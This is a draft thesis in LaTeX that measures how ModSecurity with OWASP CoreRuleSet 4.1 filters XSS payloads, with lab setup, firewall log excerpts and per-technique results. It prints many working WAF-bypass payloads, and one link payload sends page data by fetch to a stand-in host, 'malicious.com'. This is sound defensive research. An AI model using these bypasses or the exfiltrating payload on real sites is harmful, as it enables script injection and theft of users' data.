If less than 9 characters (or words) are supplied, Aurebesh.js will reuse some characters by concatenating them together to create 9 different variables. \cite{mk/aurebesh}

In contrast to the author who is pursuing the translation of JavaScript into other writing systems, antagonist actors might use this idea to translate \gls{xss} payloads that are blocked by a Web application firewall into \gls{xss} payloads that bypass Web application firewalls. Antagonist actors are not limited to just using 9 variables when crafting \gls{xss} payloads using Aurebesh.js. They can use Aurebesh.js as a base for their payloads while adding more characters and variables as needed.
The obfuscation gained by using Aurebesh.js might make payloads evade detection while the added payload content maliciously influences the Web application.
As a proof of concept, the function \verb|alert| has been substituded with the function \verb|prompt| in the following example:

\begin{lstlisting}[style=basicStyle, caption=Aurebesh.js obfuscation of prompt, label={lst:aurebeshprompt}]
		A = ''              // empty string
		B = !A + A          // "true"
		C = !B + A          // "false"
		D = A + {}          // "[object Object]"
		E = B[A++]          // "t" = "true"[0]
		F = B[G = A]        // "r" = "true"[1]
		H = ++G + A         // 2, 3
		I = D[G + H]        // "c"

		B[
		  I +=              // "c"
		    D[A] +          // "o" = "object"[0]
		    (B.C+D)[A] +    // "n" = "undefined"[1]
		    C[H] +          // "s" = "false"[3]
		    E +             // "t"
		    F +             // "r"
		    B[G] +          // "u" = "true"[2]
		    I +             // "c" = "[object]"[5]
		    E +             // "t"
		    D[A] +          // "o" = "[object]"[1]
		    F               // "r"
		][
		  I                 // "constructor"
		](
		  'p' +             // "p"
		  F +               // "r"
		  D[A] +            // "o"
		  'm' +             // "m"
		  'p' +             // "p"
		  E +               // "t"
		  '(A,++A)'         // "(1,2)"
		)()
\end{lstlisting}

For the test result of this payload see Listing~\ref{lst:aurebeshpromptbypass}.

{\color{red} evtl hier noch eine weitere, interessantere payload (fetch)}


Mentioned evasion techniques under this section (Section~\ref{sec:firewallevasiontechniques}) will be used to create targeted malicious requests in an effort to evaluate the performace of a tested firewall configuration against these requests. The evaluation methodology will be explained in the following section (Section~\ref{sec:evaluation}).


	\newpage
	\section{Evaluation methodology}
\label{sec:evaluation}
To answer the previously mentioned question
\begin{quote} "How well can web application firewalls in their generic standard configuration protect a web application against targeted malicious requests?"
\end{quote}
a gray box evaluation strategy using firewall evasion techniques was developed. The evaluation was conducted inpersonating an attacker persona, much like in black box testing.
In order to evaluate the firewall configuration, an attempt was made to develop firewall evading payloads by following the iterative cycle of sending a request with a malicious payload towards the web application, analyzing the reason(s), why the web application firewall blocked the request, and subsequently modifying the payload accordingly. 
To be more efficient in finding payloads, that evade the filtering of the web application firewall, attention to the firewall logs was paid during the evaluation.

The evaluation was done in two steps. In the first step, the original evaluation-payloads were modified using a single evasion technique. Here, effective evasion techniques against the firewall configuration are identified.
In the second step, multiple evasion techniques were used to modify the original evaluation-payloads. 
The evaluation-payloads in the second step were iteratively modified based on the firewall logs and previously identified effective evasion techniques.
As the firewall logs state the per-request specific matched data and rule that cause the rejection of the request, through analyzing the firewall logs, it is possible to subsequently apply evasion techniques that would circumvent the reason of rejection mentioned in the logs.

Evaluation-payloads sent in requests toward the web application are chosen to supply a proof of concept for a single or a combination of multiple evasion techniques. The validity of all payloads is determined by running them inside FireFox browser version 124.0.1-1. Only valid payloads are considered in the evaluation context. %For a list of all original-payloads, see Listing~\ref{lst:originalpayloads}.
In all requests, the payloads are sent in the request body in JSON format.
To test the validity of payloads, bypassing payloads have been injected into exemplary code snippets with Cross-Site Scripting vulnerabilities. A \acrshort{html} file was used that specified a \verb|<div>| element, which is dynamically modified, and a \verb|<script>| element that imports vulnerable JavaScript code snippets from an adjacent \verb|.js| file. The \acrshort{html} file:

\begin{lstlisting}[style=basicStyle, language=Python, caption=\acrshort{html} file used for payload validation]
<!doctype html>
<html>
<body>
	<div id="div1"></div>
	<script src="./tsc.js"></script>
</body>
</html>
\end{lstlisting}

The \verb|tsc.js| file was modified depending on the payload. If the payload included a complete \acrshort{html} element, the used code snippet was set up to dynamically add the injected payload to the \acrshort{html} document:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^, caption=Script used to validate payloads containing full \acrshort{html} elements]
const injection = 
  JSON.parse("{\"body\":\"   ^{\color{red}<injected payload>}^   \"}")

document.getElementById('div1').insertAdjacentHTML('afterbegin', injection.body)
\end{lstlisting}

If the payload was composed of only JavaScript statements to be executed, the injected payload was put inside a template string, such that the JavaScript statements would be executed on page load:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^, caption=Script used to validate payloads containing only JavaScript statements]
const injection = 
  JSON.parse("{\"body\":\"   ^{\color{red}<injected payload>}^   \"}")

^{\color{orange}injection.body = decodeURIComponent(injection.body)}^
^{\color{blue}injection.body = injection.body.normalize('NFKC')}^

document.getElementById('div1').insertAdjacentHTML('afterbegin', `<img src=0 onerror=${injection.body}>`)
\end{lstlisting}

Decoding percent encoded payloads and normalizing Unicode characters was done where neccessary, the according statements marked in orange and blue were added in such cases. 

The evaluation has been conducted in a lab environment composed of a simple node.js web server to receive any requests that pass the firewall.
The web server is reachable via a nginx reverse proxy, that is compiled from source with the ModSecurity-nginx connector module. Nginx runs on a Debian Bookworm host with ModSecurity installed.
All components are built from source from their latest mainline branches as of April 2024.
For more details see the Dockerfiles in the attached GitHub repository:\\ \verb|https://github.com/sebstec/mt|. \\

ModSecurity is configured using the authors recommended configuration by the time of this writing. \cite{modsec/recconf}
Adjustments were made, such that hits on potentially malicious requests are logged and the requests are being blocked. The response body is not being filtered.
The configured ruleset to be used is the OWASP CoreRuleSet in version 4.1.0 from 21/03/2024. \cite{crs/410dl}

As mentioned under Section~\ref{sec:waf}, the configured ruleset is responsible for setting up the filtering rules used by the web application firewall. Results of successful filtering bypasses as well as successful filtered requests, while using the OWASP CoreRuleSet in version 4.1, are detailed in the following section, Section~\ref{sec:EvaluationResults}.


	\newpage
	\section{Evaluation Results}
\label{sec:EvaluationResults}
Combination of <a> with javascript in href injection, HTML ascii encoding, tagged template literals (line breaks for readability)
\begin{lstlisting}[style=basicStyle]
	<a href=j&#97v&#97script&#x3A;
	var&#32secret&#32=&#32document.getElementsByName("name")[0]&#46innerHTML;
	var&#32data&#32=&#32&#123body:secret,method:'POST'\};
	fetch`https:\//malicious.com:3001/api/ping?secret=querysecret$&#123data\}`>ClickMeFor$</a>
\end{lstlisting}

\begin{itemize}
	\item Using function constructor to evade eval() detection
	\item supplying the argument via tagged template literal to avoid () characters
	\item the 'a' in front of the template in the template string to avoid an error that is thrown if the first parameter in a multi parameter call to the function constructor is not a valid javascript parameter
	\item using string replace to avoid supplying the full sequence of 'alert' and to replace () characters
\end{itemize}

theoretically a payload without () is possible like this but it turns out that passing a template literal string with \verb|${...}| syntax is being flagged as unix command injection

\begin{lstlisting}[style=basicStyle, caption=Payload inspired by \cite{onecons/wafbypass}]
	[][`constructor`][`constructor`]`a${`al` + [open + []][0][11] + `rt` + [open + []][0][13] + [`"`][0] + `XSS` + [`"`][0] + [open + []][0][14]}```
\end{lstlisting}


tried to encode the  payload:
\begin{lstlisting}[style=basicStyle, caption=Payload inspired by \cite{onecons/wafbypass}]
	[][`constructor`][`constructor`]`a${`al` + [open + []][0][11] + `rt` + [open + []][0][13] + [`"`][0] + `XSS` + [`"`][0] + [open + []][0][14]}```
\end{lstlisting}
with unicode and html, even the weird unicode. but the modsecurity waf decodes both and blocks TODO

weird unicode: tried using 
\begin{lstlisting}[style=basicStyle, caption=Payload inspired by \cite{onecons/wafbypass}]
	console.log(encodeURIComponent('[][`constructor`][`constructor`]`a\uFE69{`al`+[open+[]][0][11]+`rt`+[open+[]][0][13]+[`"`][0]+`Oneconsult`+[`"`][0]+[open+[]][0][14]}```'))

	but result is 
{\t\"test2\": \"[][`constructor`][`constructor`]`a__{`al`+[open+[]][0][11]+`rt`+[open+[]][0][13]+[`\"`][0]+`Oneconsult`+[`\"`][0]+[open+[]][0][14]}```\"}
\end{lstlisting}


unicode tests:
\begin{lstlisting}[style=ruleStyle, language=XML, caption=unicode tests \$\{`alert`\}, label={lst:unicodetests}]
<payload>${`alert`}</payload>
<message>"Remote Command Execution: Unix Shell Expression Found"</message>
<file>"/rules/REQUEST-932-APPLICATION-ATTACK-RCE.conf"</file>
<fileDetails>[line "291"] [id "932130"]<fileDetails>
<MatchedData>"${`alert`}"</MatchedData>

<payload>\u0024{alert`}</payload>
<message>"Possible Unicode character bypass detected"</message>
<file>"/rules/REQUEST-920-PROTOCOL-ENFORCEMENT.conf"</file>
<fileDetails>[line "1263"] [id "920540"]<fileDetails>
<MatchedData>"x5cu0024"</MatchedData>

<payload>encodeURIComponent('`\u0024{`alert`}')</payload>
<payload>"%60%24%7B%60alert%60%7D"</payload>
<message>"Remote Command Execution: Unix Shell Expression Found"</message>
<file>"/rules/REQUEST-932-APPLICATION-ATTACK-RCE.conf"</file>
<fileDetails>[line "291"] [id "932130"]<fileDetails>
<MatchedData>"${`alert`}"</MatchedData>

<file>"rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "714"] [id "941390"]<fileDetails>
<MatchedData>"eval("</MatchedData>
\end{lstlisting}



	\subsection{Single Iteration Evaluation}
\label{sec:singleiterationeva}
This chapter states the evaluation results of a single iteration of application of an evasion technique to the specified payloads. If a considerable (from the perspective of the author of this work) bypass was found, the result will be detailed. Evaluation results of blocked requests are not further investigated.


\subsubsection{Payload length}
\label{sec:paylensingleiter}
As stated in Listing~\ref{lst:alertXSSblocked}, the payload \verb|alert('XSS')| is being blocked by the tested firewall:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=alert('XSS'), label={lst:alertXSSblocked}]
<payload>alert('XSS')</payload>

<message>"Javascript method detected"</message>
<file>"rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "714"] [id "941390"]<fileDetails>
<MatchedData>"alert("</MatchedData>
\end{lstlisting}

Filling the request with filler data in the form: \\
\verb|/**aa..a**/alert('XSS')| \\
will cause the request to be blocked by ModSecurity without matching on any CoreRuleSet rule:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=request body bigger than maximum, label={lst:requesttoobig}]
<payload>/**aaa...(131052 more a)**/alert('XSS')</payload>
<message>"Failed to parse request body."</message>
<file>"/nginx/modsecurity.d/modsecurity.conf"</file>
<fileDetails>[line "76"] [id "200002"]<fileDetails>
<MatchedData>"Request body excluding files is bigger than the maximum expected."</MatchedData>
\end{lstlisting}

It takes exactly 131073 1-byte characters to reach this limit. If one less character is used in the request body, the ModSecurity firewall will match on \verb|alert(|, like in Listing~\ref{lst:alertXSSblocked}. This corresponds to the 131072 limit with rejection by default on exceeding the limit stated in the ModSecurity configuration file.


\subsubsection{Unicode encoding in JSON}
\label{sec:unicodeinjsontest}
The ModSecurity firewall detects and blocks requests containing \verb|${| followed by a closing \verb|}| after an arbitrary number of characters in between.
Tests have shown that using Unicode encoding in JSON and substituting the \verb|$| in a JSON request with \verb|\u0024| evades the previously mentioned detection, but triggers another firewall rule: \\
\verb|Possible Unicode character bypass detected|:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=unicode tests \$\{`alert`\}, label={lst:jsonunicodetests}]
<payload>${`alert`}</payload>
<message>"Remote Command Execution: Unix Shell Expression Found"</message>
<file>"/rules/REQUEST-932-APPLICATION-ATTACK-RCE.conf"</file>
<fileDetails>[line "291"] [id "932130"]<fileDetails>
<MatchedData>"${`alert`}"</MatchedData>

<payload>\u0024{alert`}</payload>
<message>"Possible Unicode character bypass detected"</message>
<file>"/rules/REQUEST-920-PROTOCOL-ENFORCEMENT.conf"</file>
<fileDetails>[line "1263"] [id "920540"]<fileDetails>
<MatchedData>"x5cu0024"</MatchedData>
\end{lstlisting}

\subsubsection{Unicode Normalization}
\label{sec:uninormsingleiter}
The following payload using the function \verb|alert()| is being blocked by the ModSecurity Firewall using CRS 4.1:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=alert("normalizeMe") blocked, label=lst:alertnormalizemeblocked]
<payload>alert("normalizeMe")</payload>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "714"] [id "941390"]<fileDetails>
<MatchedData>"alert("</MatchedData>
<message>"Javascript method detected"</message>
\end{lstlisting}

If the opening \verb|(| is substituted with the "Superscript Left Parenthesis" (U+207D), the payload bypasses the filter:

\begin{lstlisting}[style=basicStyle, caption=alert('normalizeMe') bypass, label=lst:alertnormalizemebypass]
alert\u{207D}'normalizeMe')
\end{lstlisting}

Calling \verb|.normalize('NFKD')| on the bypassed string:

\begin{lstlisting}[style=basicStyle]
"alert\u{207D}'normalizeMe')".normalize('NFKD')
\end{lstlisting}

will convert the string to the original payload:

\begin{lstlisting}[style=basicStyle]
"alert('normalizeMe')"
\end{lstlisting}

As such, this payload would be a valid bypass on web applications that normalize payloads on incoming requests using the NFKD or another normalization algorith that normalizes the payload equally.


\subsubsection{Case Alternation}
\label{sec:casealternationevaluation}
As seen in Listing~\ref{lst:alertXSSblocked}, the payload \verb|alert('XSS')| is being blocked. Similarly, the payload \verb|aLeRT('XSS')| is being blocked by the ModSecurity Firewall using CRS4.1.:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=alert("normalizeMe") blocked, label=lst:alertcasealternationblocked]
<payload>aLeRT('XSS')</payload>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "714"] [id "941390"]<fileDetails>
<MatchedData>"aLeRT("</MatchedData>
<message>"Javascript method detected"</message>
\end{lstlisting}

The specific warning that the firewall writes to its log on blocking the case-alternated payload gives a reason as to why the payload is being filtered:
\begin{lstlisting}[style=basicStyle, caption=ModSecurity warning on case alternated payloads, label={lst:modsecwarning}]
	ModSecurity: Warning. Matched "Operator `Rx' with parameter `(?i)\b(?:eval|set(?:timeout|interval)|new[\s\x0b]+Function|a(?:lert|tob)|btoa|prompt|confirm)[\s\x0b]*\('
\end{lstlisting}
The \verb|(?i)| regex modifier at the beginning of the rule instructs the regex engine to ignore case.


% \subsubsection{Comment Interference}
% {\color{red}TODO XSS comment interference}
% The example given by Ally Petitt \cite{medium/allypetitt} in Section~\ref{sec:commint} has been tested against the ModSecurity Firewall using CRS4.1. The original payload: \verb|?id=1+union+select+1,2,3--| is being blocked by the firewall:
%
% \begin{lstlisting}[style=ruleStyle, language=XML, caption=union select injection blocked, label=lst:sqliblocked]
% <payload>?id=1+union+select+1,2,3--</payload>
%
% <file>"/rules/REQUEST-942-APPLICATION-ATTACK-SQLI.conf"</file>
% <fileDetails>[line "205"] [id "942190"]<fileDetails>
% <MatchedData>"union select"</MatchedData>
% <message>"Detects MSSQL code execution and information gathering attempts"</message>
%
% <file>"/rules/REQUEST-942-APPLICATION-ATTACK-SQLI.conf"</file>
% <fileDetails>[line "469"] [id "942360"]<fileDetails>
% <MatchedData>"1 union select"</MatchedData>
% <message>"Detects concatenated basic SQL injection and SQLLFI attempts"</message>
% \end{lstlisting}
%
% Similarly, the modified payload using Comment Interference: \verb|?id=1+un/**/ion+sel/**/ect+1,2,3--| is detected and blocked:
%
% \begin{lstlisting}[style=ruleStyle, language=XML, caption=Comment Interference in SQL blocked, label=lst:commentinterferenceinsqlblocked]
% <payload>?id=1+un/**/ion+sel/**/ect+1,2,3--</payload>
% <file>"/rules/REQUEST-942-APPLICATION-ATTACK-SQLI.conf"</file>
% <fileDetails>[line "205"] [id "942190"]<fileDetails>
% <MatchedData>"union select"</MatchedData>
% <message>"Detects MSSQL code execution and information gathering attempts"</message>
% \end{lstlisting}
%
% The fact that the ModSecurity Firewall using CRS4.1 blocks this specifically crafted payload does not proof that using Comment Interference will never make payloads bypass the firewall. No more research was conducted into this idea, therefore Comment Interference is not being considered when crafting bypassing payloads in multiple steps in the following section.
%

\subsubsection{Percent Encoding}
\label{sec:percencsingleiter}
The ModSecurity firewall detects some percent-encoded payloads. Requests with plain as well as percent-encoded payloads were sent to the reverse proxy. All requests triggered the same rules:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=url encoded example blocked, label={lst:urlencodedexampleblocked}]
<payload>alert(`${new Date()}`)</payload>
<payload>urllib.parse.quote_plus('alert(`${new Date()}`)')</payload>
<payload>'alert%28%60%24%7Bnew+Date%28%29%7D%60%29'</payload>
<message>"Remote Command Execution: Unix Shell Expression Found"</message>
<file>"/rules/REQUEST-932-APPLICATION-ATTACK-RCE.conf"</file>
<fileDetails>[line "291"] [id "932130"]<fileDetails>
<MatchedData>"${new date()}"</MatchedData>

<message>"Javascript method detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "714"] [id "941390"]<fileDetails>
<MatchedData>"alert("</MatchedData>
\end{lstlisting}

Many rules that are delivered as part of the CoreRuleSet in version 4.1 use the \verb|t:urlDecode| or \verb|t:urlDecodeUni| transformations that transforms a filtered request by url decoding input strings before checking for rule matches. Therefore, using percent (url-) encoding to try and bypass a firewall equipped with rules from CRS4.1 is considered futile.

\subsubsection{Charset Alternation}
\label{sec:charaltsingleiter}
The ModSecurity firewall using CRS4.1 blocks the payload:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=charset alternation example blocked, label={lst:charsetaltexampleblocked}]
<payload>"<script>alert("xss")</script>"</payload>

<message>"XSS Attack Detected via libinjection"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "116"] [id "941100"]<fileDetails>
<MatchedData>"<script>alert(\x22xss\x22)</script>"</MatchedData>

<message>"XSS Filter - Category 1: Script Tag Vector"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "142"] [id "941110"]<fileDetails>
<MatchedData>"<script>"</MatchedData>

<message>"NoScript XSS InjectionChecker: HTML Injection"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "234"] [id "941160"]<fileDetails>
<MatchedData>"<script"</MatchedData>

<message>"Javascript method detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "748"] [id "941390"]<fileDetails>
<MatchedData>"alert("</MatchedData>
\end{lstlisting}

after encoding the payload to \verb|UTF-16|, the payload:

\begin{lstlisting}[style=basicStyle]
\xff\xfe<\x00s\x00c\x00r\x00i\x00p\x00t\x00>\x00a\x00l\x00e\x00r\x00t\x00(\x00'\x00x\x00s\x00s\x00'\x00)\x00<\x00/\x00s\x00c\x00r\x00i\x00p\x00t\x00>\x00
\end{lstlisting}

successfully evades the filtering of the firewall. In order to for this payload to have any effect, the Web server receiving the HTTP request containing this payload needs to be informed that this payload is encoded in \verb|UTF-16|. For that purpose, the HTTP header: \\
\verb|Content-Type: text/html; charset=utf-16| is added to the request.

The ModSecurity firewall using CRS4.1 does not allow specifying \verb|UTF-16| as charset in the \verb|Content-Type| header:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=utf-16 charset header blocked, label={lst:utf16charsetheaderblocked}]
<payload>-H 'Content-Type: text/html; charset=utf-16'</payload>

<message>"Request content type charset is not allowed by policy"</message>
<file>"/rules/REQUEST-920-PROTOCOL-ENFORCEMENT.conf"</file>
<fileDetails>[line "1021"] [id "920480"]<fileDetails>
<MatchedData>"utf-16"</MatchedData>
\end{lstlisting}

The firewall log further states that the firewall

\begin{quote}
	Matched "Operator `Within' with parameter `|utf-8| |iso-8859-1| |iso-8859-15| |windows-1252|' against variable `TX:content\_type\_charset'
\end{quote}

Subsequently, every encoding permitted by this rule has been tested with the initial payload. There is no difference between the string in any of the allowed encodings. As it seems, the byte representation of first 127 characters is equal between all tested encodings. \cite{enc/diffa, enc/diffb, enc/diffc} Therefore, none of the allowed encodings can be used to create a bypassing payload from the initial payload.


\subsubsection{HTML character references}
\label{sec:htmlcharrefsingleeva}
The example payload mentioned under Section~\ref{sec:htmlcharreftech} has been tested against the ModSecurity firewall using CRS4.1:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=stored xss injection blocked, label={lst:storedxssinjblocked}]
<payload><a href=javascript:alert('a')>ClickMeFor$</a></payload>

<message>"NoScript XSS InjectionChecker: Attribute Injection"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "259"] [id "941170"]<fileDetails>
<MatchedData>"javascript:alert('a')>ClickMeFor$<"</MatchedData>

<message>"IE XSS Filters - Attack Detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "357"] [id "941210"]<fileDetails>
<MatchedData>"javascript:a"</MatchedData>

<message>"Javascript method detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "748"] [id "941390"]<fileDetails>
<MatchedData>"alert("</MatchedData>
\end{lstlisting}

On escaping the first \verb|a| in \verb|javascript:| using the HTML hex character reference, the payload becomes:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<a href=jav^\&\#x61^;script:alert('a')>ClickMeFor$</a>
\end{lstlisting}

This payload bypasses the rules with ids \verb|941170| (NoScript XSS InjectionChecker: Attribute Injection) and \verb|941210|(IE XSS Filters - Attack Detected).

As this result is promising, another iteration of applying this technique has been used in the multi iteration evaluation. The results are stated unter Section~\ref{sec:doublehtmlcharref}.

\subsubsection{fromCharCode()}
\label{sec:charcodesingleiter}
As stated under Section~\ref{sec:fromcharcodetech}, a payload where the string containing malicious JavaScript statements was substituted by a call to \verb|String.fromCharCode()| was tested against the ModSecurity firewall using CRS4.1:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=fromCharCode blocked, label={lst:fromcharcodeblocked}]
<payload>String.fromCharCode(^0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29^)</payload>

<message>"Node.js Injection Attack 1/2"</message>
<file>"/rules/REQUEST-934-APPLICATION-ATTACK-GENERIC.conf"</file>
<fileDetails>[line "52"] [id "934100"]<fileDetails>
<MatchedData>"String.fromCharCode"</MatchedData>
\end{lstlisting}

This rule matches on the character sequence \verb|String.fromCharCode| while this evasion technique depends on using this function. Further use of this technique would require to split the statement into a minimum of two parts. Section~\ref{sec:charcodemultiiter} follows up on this idea. In a single iteration, the firewall effectively prohibits payloads obscured using this technique.

\subsubsection{JavaScript Comment Substitution}
\label{sec:jscommentsubsingleiter}
As stated under Section~\ref{sec:jscommentsub}, comments instead of whitespaces in payload strings have been used to evaluate the tested Web application firewall. The example payload of:

\begin{lstlisting}[style=basicStyle,language=Python]
var s = 5;
\end{lstlisting}

was obscured by replacing all whitespaces with inline comments:

\begin{lstlisting}[style=basicStyle,language=Python]
var/**/s/**/=/**/5;
\end{lstlisting}

The obscured payload bypasses the filtering by the ModSecurity firewall using CRS4.1. While obscuring the payload in this context does not significantly change the bypassing of the tested payload, the fact that the evaluated firewall does not block payload containing inline comments in the form of \verb|/**/| opens further use cases during multi iteration evaluation. Further use of this technique is stated under Section~\ref{sec:funconstrconbypass}.

\subsubsection{String Concatenation}
\label{sec:stringconcsingleiter}
The example payload mentioned under Section~\ref{sec:stringconc}:

\begin{lstlisting}[style=basicStyle, language=Python]
"alert('concatenation')"
\end{lstlisting}

was used to evaluate the tested firewall against this evasion technique. The ModSecurity firewall using CRS4.1 blocks requests containing this payload according to the following rule:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=fromCharCode blocked, label={lst:fromcharcodeblocked}]
<payload>"alert('concatenation')"</payload>

<message>"Javascript method detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XS"</file>
<fileDetails>[line "748"] [id "941390"]<fileDetails>
<MatchedData>"alert("</MatchedData>
\end{lstlisting}

after using string concatenation to craft an obscured variant of the example payload:

\begin{lstlisting}[style=basicStyle, language=Python, caption='alert' + '(`concatenation`)' bypass, label={lst:strconcbypass}]
'alert' + '(`concatenation`)'
\end{lstlisting}

the payload successfully evaded the firewall rule and reached the tested Web server. As mentioned under Section~\ref{sec:stringconc}, this technique is more effective when combined with forced evaluation. Evalutation results of combining this technique with using the function constructor to force the evaluation of the payload are stated under Section~\ref{sec:funconstrconbypass} and Section~\ref{sec:charcodemultiiter}.


\subsubsection{Eval \& function constructor}
\label{sec:functionconstructorsingleeva}
Considering the example payload of the previous subsection: String concatenation: Creating a modified payload that forces the evaluation of the part equal to the example payload from the previous subsection would remove the dependency of evaluation through the vulnerable code. The modified payload might use the \verb|eval()| function to achieved forced evaluation:

\begin{lstlisting}[style=basicStyle, language=Python]
eval('alert' + '(`concatenation`)')
\end{lstlisting}

When sent in a request directed to the test Web server protected by the evaluted Web application firewall, this payload triggers the following blocking firewall rules:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=eval() blocked, label={lst:evalblocked}]
<payload>"eval('alert' + '(`concatenation`)')"</payload>

<message>"PHP Injection Attack: High-Risk PHP Function Call Found"</message>
<file>"/rules/REQUEST-933-APPLICATION-ATTACK-PHP.conf"</file>
<fileDetails>[line "331"] [id "933160"]<fileDetails>
<MatchedData>"eval('alert'   '(`concatenation`)')"</MatchedData>

<message>"Node.js Injection Attack 1/2"</message>
<file>"/rules/REQUEST-934-APPLICATION-ATTACK-GENERIC.conf"</file>
<fileDetails>[line "52"] [id "934100"]<fileDetails>
<MatchedData>"eval("</MatchedData>

<message>"Javascript method detected"</message>
<file>"/rules/REQUEST-933-APPLICATION-ATTACK-PHP.conf"</file>
<fileDetails>[line "748"] [id "941390"]<fileDetails>
<MatchedData>"eval("</MatchedData>
\end{lstlisting}

It is apparent, that usage of the \verb|eval()| function is heavily blacklisted. Therefore, \verb|eval()| has been substituted by the function constructor in order to obscure the payload:

\begin{lstlisting}[style=basicStyle, language=Python, caption=Function constructor bypass, label={lst:funconbypass}]
[].constructor.constructor('alert'+'(`concatenation`)')()
\end{lstlisting}

The obscured payload successfully bypasses the ModSecurity firewall using CRS4.1.

\subsubsection{Square bracket notation}
\label{sec:functionconstructorsingleevasbn}
As stated under Section~\ref{sec:sbn}, the square bracket notation can be used to substitute the dot notation in order to access object properties. When using the Function constructor as mentioned under Section~\ref{sec:functionconstructor}, access to object properties is neccessary. Using the square bracket notation in such a case is standing to reason.

The bypassing payload mentioned under Section~\ref{sec:functionconstructorsingleeva}:

\begin{lstlisting}[style=basicStyle, language=Python]
[].constructor.constructor('alert' + '(`concatenation`)')()
\end{lstlisting}

has been obscured using the square bracket notation:

\begin{lstlisting}[style=basicStyle, language=Python, caption=square bracket notation bypass]
[]["constructor"]["constructor"]('alert' + '(`concatenation`)')()
\end{lstlisting}

Equally to the result of the original payload, the obscured payload successfully bypasses the ModSecurity firewall using CRS4.1.

Further usages of this technique are stated under Section~\ref{sec:funconstrconbypass}, Section~\ref{sec:avoidingbypassA} and Section~\ref{sec:avoidingbypassB} during multi iteration evaluation.


\subsubsection{Tagged Template Literals}
\label{sec:taggedtemplateliteralsevaluation}
The example payload stated under Section~\ref{sec:taggedtemplateliterals}:

\begin{lstlisting}[style=basicStyle, language=Python]
alert("XSS")
\end{lstlisting}

has been used to evaluate the tested firewall configuration. It is blocked by the ModSecurity firewall using CRS4.1:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=alert('XSS') blocked, label={lst:alertXSSblocked}]
<payload>alert('XSS')</payload>

<message>"Javascript method detected"</message>
<file>"rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "714"] [id "941390"]<fileDetails>
<MatchedData>"alert("</MatchedData>
\end{lstlisting}

After substituting the function call using \verb|("XSS")| with a Tagged Template Literal in the form of \verb|`XSS`|, the obscured payload:

\begin{lstlisting}[style=basicStyle, language=Python, caption=alert`XSS` bypass, label=lst:alertXSSbypass]
alert`XSS`
\end{lstlisting}

successfully bypasses the firewall and reaches the web server.

Further usage of this technique during multi iteration evaluation is stated under Section~\ref{sec:avoidingbypassA} and Section~\ref{sec:avoidingbypassB}.

\subsubsection{JavaScript character escape}
\label{sec:jsescapesingleiter}
As stated under Section~\ref{sec:jsescape}, character escaping in JavaScript can be used in identifiers, string literals and template literals.

The payload:

\begin{lstlisting}[style=basicStyle, language=Python]
alert("escape")
\end{lstlisting}

is being blocked by the evaluated firewall according to the following rule:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=alert('escape') blocked]
<payload>alert('escape')</payload>

<message>"Javascript method detected"</message>
<file>"rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "714"] [id "941390"]<fileDetails>
<MatchedData>"alert("</MatchedData>
\end{lstlisting}

As identifiers can be escaped in JavaScript and functions are called using their identifier, the just mentioned payload can be substituted by:

\begin{lstlisting}[style=basicStyle, language=Python]
\u0061lert("escape")
\end{lstlisting}

This obscured payload is being blocked by the ModSecurity firewall using CRS4.1 according to the following rules:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=\textbackslash u0061lert('escape') blocked]
<payload>\u0061lert('escape')</payload>

<message>"Possible Unicode character bypass detected"</message>
<file>"/rules/REQUEST-920-PROTOCOL-ENFORCEMENT.conf"</file>
<fileDetails>[line "1263"] [id "920540"]<fileDetails>
<MatchedData>"\x5cu0061"</MatchedData>

<message>"Javascript method detected"</message>
<file>"rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "748"] [id "941390"]<fileDetails>
<MatchedData>"alert("</MatchedData>
\end{lstlisting}

The CRS4.1 rule with id \verb|941390| applies the \verb|t:jsDecode| transformation to the payload before checking for potential matches. The ModSecurity manual states that the \verb|t:jsDecode| transformation

\begin{quote}
	decodes JavaScript escape sequences. If a \textbackslash uHHHH code is in the range of FF01-FF5E (the full width ASCII codes), then the higher byte is used to detect and adjust the lower byte. Otherwise, only the lower byte will be used and the higher byte zeroed (leading to possible loss of information). \cite{modsec/trans}
\end{quote}

